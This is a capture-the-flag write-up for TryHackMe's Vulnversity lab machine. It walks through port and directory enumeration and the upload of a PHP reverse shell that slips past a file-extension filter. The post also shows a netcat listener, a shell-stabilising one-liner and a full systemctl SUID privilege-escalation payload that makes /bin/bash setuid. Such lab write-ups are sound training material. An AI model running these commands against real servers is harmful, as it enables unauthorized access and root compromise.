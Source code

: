 ```yaml
---
title: Tryhackme Vulnversity Ctf Writeup
author: krygennn
date: 2021-10-9 18:04
categories: [Blogging,cyber-security]
image:
    src: /assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln1.jpg
    alt: TRYHACKME VULNVERSITY
tags: [ctf,pentesting,linux-privesc,bruteforce,cracking,reverse-shell,php,shell-injection]
---
```

[**Solve Yourself >>**](https://www.tryhackme.com/room/vulnversity)

Vulnversity is a machine that combines reconnaissance, web attack vectors and privilege escalation methods together.
<br>
<br>
## 1-Enumeration
Let's start with enumerating the host.I will use Network Mapper (`nmap`) tool in order to scan and probe opened ports and active services to find my attack vector. 

| Parameter  | Functionality                                      |
|:-----------|:---------------------------------------------------|
|-sS         |SYN Stealth Scan (Half TCP Connect scan)            |
|-sV         |Probe open ports to determine service/version info  |
|-O          |Enable OS detection.                                |
|-T4         |T{0-5} Set scan speed, higher is faster.            |
|-p-         |Scan all 65536 ports.                               |
|-oN         |Outputfile                                          |


Full command: `nmap {machine IP} -sV -sS -O -T4 -p- -oN vulnversity.nmap`
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln2.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
As you can see from the results, we have got six different ports active to create our attack vector.If you do your research and investigate whether one of these services have any vulnerabilities or not, you will return to your home empty handed.You can try anonymous login to FTP protocol, or try to make a SSH connection but you would fail just like I did.None of these services have any vulnerabilities that would put us in the target system.
 
Other than that **"3333/tcp open  http   Apache httpd 2.4.18 ((Ubuntu))"** catches the eye, so lets start to investigate the webpage that the host is running on its port 3333.

![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln3.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Fire up your browser and type **{machine IP}:3333** to your address bar.You will see the webpage shown above.Nothing suspicious there, so lets start to extract the directories with the help of the `gobuster` tool.

| Parameter     | Functionality                                      |
|:--------------|:---------------------------------------------------|
|dir -u         |URL and the port where web server is running        |
|-w             |Wordlist that contains possible directory names     |

Full command: `gobuster dir -u http://{MachineIP}:3333 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt`

[**Seclist's Wordlist Pack >>**](https://github.com/danielmiessler/SecLists)
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln4.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Let's go for `http://[IP]:3333/internal`
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln5.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
It seems like we've find our playground :) Website have got an upload functionality.
<br>
<br>
## 2-Exploitation
First thing came into my mind was to upload a php reverse shell, so let's try it out.

[**PHP Reverse Shell Script >>**](https://www.tryhackme.com/room/vulnversity)
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln6.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Download the script by using **curl**.However in order to make it work, we need to make some configurations in the script to make it work.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln7.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Change **$ip** to your own machines ip (tryhackme's vpn tunnel) ,define the port as any random **$port**.I've changed it to the 8888 while it was 1234 by default.

 Configurations are all done ! Now, it is time for us to upload the reverse shell to the web server.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln8.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
**Note**:My machine shutted it down while creating this post, so I had to restart it. That is why the ip have changed, don't worry :)

It seems like .php extension is not allowed.However ,php extension is not the only extension that we can use, we have got couple more.You can try all of them manually, but come on, let's write a python script :)) 
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln9.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
[**Download the php bruter script >>**](https://www.tryhackme.com/room/vulnversity)
Run it.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln10.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
**.phtml** is the working extension. Rename the payload, **php_reverse_shell.php** into **php_reverse_shell.phtml**, and than upload it.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln11.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Now we have successfully injected our reverse shell script.However we also need to listen incoming connections from the server.Therefore we will use Netcat (**nc**) to listen to the port 8888, which we set in the script before.

|Parameter | Functionality                                     |
|:---------|:--------------------------------------------------|
|-n        | Do not resolve hostnames via DNS                  |
|-l        | Bind and listen for incoming connections          |
|-v        | Set verbosity level (can be used several times)   |
|-p        | Specify source port to use                        |

Full command: `nc -nvlp 8888`
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln12.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
While listening to port 8888, we need to activate the script that we just uploaded.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln13.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Visit this URL >> `http://{machineIP}:3333/internals/uploads`, and than click to the reverse php 
shell script that you have uploaded. 
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln14.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Excellent, we are in !
<br>
<br>
## Flag Capturing and Privilege Eseclation
Nevertheless, this shell is not stable righ now, we need to spawn a python shell.
<br>Run `python -c 'import pty;pty.spawn("/bin/bash")'`, and also `export TERM=xterm`.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln15.jpg){: .shadow style="max-width: 80%" .normal} 
<br>

#### 1-User Flag
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln16.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
In order to get root flag, we have to escalate our privileges, let's search for SUID binaries.If you are not familiar with SUID executables, I recommend you to make your research, than come back, but basically, when you executing a SUID file, you are executing it with it's owner's permissions.We will use **find** command to scan for those binaries.

| Parameter              | Functionality                                          |
|:-----------------------|:-------------------------------------------------------|
| /                      | Search from the root directory                         |
|-type f                 | Only search for files                                  |
|-user root              | Only find the files owned by root                      |
|-perm -u=s              | Only find the files with SUID bit set                  |
|2>/dev/null             | Redirect all stderr outputs to device null             |

Full command: `find -type f -user root -perm -u=s 2>/dev/null`
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln17.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Some of those binaries have set uid bit by default, however **/bin/systemctl** should not have that SUID permission by default,so let's search how we can exploit that.
[**GTFOBins >>**](https://gtfobins.github.io/)
GTFOBins is a github project, and it is curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.Click the link given above and search fore **systemctl**.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln18.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
t seems like one way to exploit that SUID set systemctl is creating a temporary service.Since systemctl's burden is coordinate the services, it makes sense.However we will need to configure that service file.
#### Service file
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
I have manually changed the systemctl location in the given code from relative to static directory,and also ExecStart will set SUID perm to /bin/bash.

Copy and paste the lines given above to shell (Press enter two times after you paste it), and than check the /bin/bash's file permissions.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln19.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
As you can see, /bin/bash binary now have 's' permission, which indicates that it is a SUID executable.
Run `bash -p` and you are good to go.
#### 2-Root Flag
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln20.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
As you can see euid (Effective user id) set to 0 which belongs to root.Now you can get the root flag.

That is all for this machine, thank you for reading :)


